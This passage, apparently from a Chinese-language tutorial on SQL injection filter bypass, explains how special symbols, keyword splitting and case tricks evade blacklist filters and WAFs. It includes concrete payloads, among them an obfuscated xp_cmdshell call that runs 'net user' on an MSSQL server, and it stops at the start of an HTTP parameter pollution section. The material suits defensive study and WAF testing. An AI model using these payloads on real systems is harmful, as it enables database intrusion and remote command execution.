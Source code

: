 MySQL、PostgreSQL、Oracle它们都有许多自己的函数，基于黑名单的filter，要想涵盖这么多东西从实际上来说不太可能而且代价太大，因此黑名单的确是更适合处理已知的情况
  

  
f) 特殊符号
  
这里我把非字母数字的字符都规在了特殊符号一类，这些符号有特殊的含义和用法涉及信息量比前面提到的几种都要多
  
先看下下面的几个例子
  
```
  
1.使用反引号`，例如select `version()`，可以用来过空格和正则，特殊情况下还可以将其做注释符用
  
2.神奇的"-+."，select+id-1+1.from users; '+'是用于字符串连接的，'-'和'.'在此也用于连接，可以逃过空格和关键字过滤
  
3.@符号，select@^1.from users; @用于变量定义如@var_name，一个@表示用户定义，@@表示系统变量
  
4.Mysql function() as xxx  也可不用as和空格　　 select-count(id)test from users;  //绕过空格限制
  
```
  
可见使用这些字符的确是能做很多事，也证实了那句老话只有想不到没有做不到
  
笔者搜罗了部分可能发挥大作用的字符(这里未包括`'`、`*`、`/` 等在内，考虑到前面已经出现较多次了)
  
`、~、!、@、%、()、[]、.、-、+ 、|、%00
  

  
举例
  
关键字拆分
  
```
  
'se'+'lec'+'t'
  
%S%E%L%E%C%T 1
  
1.aspx?id=1;EXEC('ma'+'ster..x'+'p_cm'+'dsh'+'ell "net user"')
  
or --+2=- -!!!'2
  
id=1+(UnI)(oN)+(SeL)(EcT)
  
```
  
本节最后再给出一些和这些字符多少有点关系的操作符供参考
  
`> > , <<, >=, <=, <>,<=>,XOR, DIV, SOUNDS LIKE, RLIKE, REGEXP, IS, NOT, BETWEEN`
  

  
使用这些"特殊符号"实现绕过是一件很细微的事情，一方面各数据库对符号的处理是不尽相同的，另一方面你得充分了解这些符号的特性和使用方法才能会考虑利用其实现绕过
  

  
g) HTTP参数控制
  
这里HTTP参数控制除了对查询语句的参数进行篡改，还包括HTTP方法、HTTP头的控制
  
1.HPP(HTTP Parameter Polution)举例
  